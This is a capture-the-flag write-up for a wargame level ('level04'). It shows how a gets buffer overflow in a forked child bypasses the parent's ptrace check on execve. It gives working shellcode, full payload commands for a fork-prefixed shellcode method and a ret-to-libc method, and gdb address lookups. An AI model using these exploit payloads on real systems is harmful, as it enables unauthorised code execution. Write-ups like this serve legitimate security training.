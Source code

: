 # level04
## Program behaviour

1. Call `fork`
2. If child, run a vunerable `gets`
3. If father, `kill` child if attempting to `syscall execve`

## Vulnerability

The son allows uses gets, which is vunerable to buffer-overflow attacks.
The father only prevents `execve` from his direct son.

## Exploitation

Both methods use son's `gets` for a buffer-overflow and `fork` to bypass father's `ptrace`.

### Method 1: prepend `fork` to shellcode

1. Assemble the following `asm`
    - result is `"\x6a\x02\x58\xcd\x80"`
```asm
push 0x2 ; syscall code for fork
pop $eax ; place in register $eax
int 0x80 ; syscall
```

2. Run the exploit with `"\x6a\x02\x58\xcd\x80"` + shellcode as payload
```sh
level04@OverRide:~$ (python -c 'print "\x90" * 106 + "\x6a\x02\x58\xcd\x80" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x80\xd6\xff\xff"'; cat) | ~/level04
Give me some shellcode, k
no exec() for you
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

### Method 2: Ret to libc

1. Search for the right addresses
    - `0xf7e6aed0` is the address of `system`
    - `0xf7f897ec` is the address of `/bin/sh`
```gdb
(gdb) print system
$7 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find 0xf7e6aed0, +99999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

2. Run the exploit with `system("/bin/sh")` as payload
```sh
level04@OverRide:~$ (python -c 'print "a" * 156 + "\xd0\xae\xe6\xf7" + "DUDE" + "\xec\x97\xf8\xf7"'; cat) | ~/level04             
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```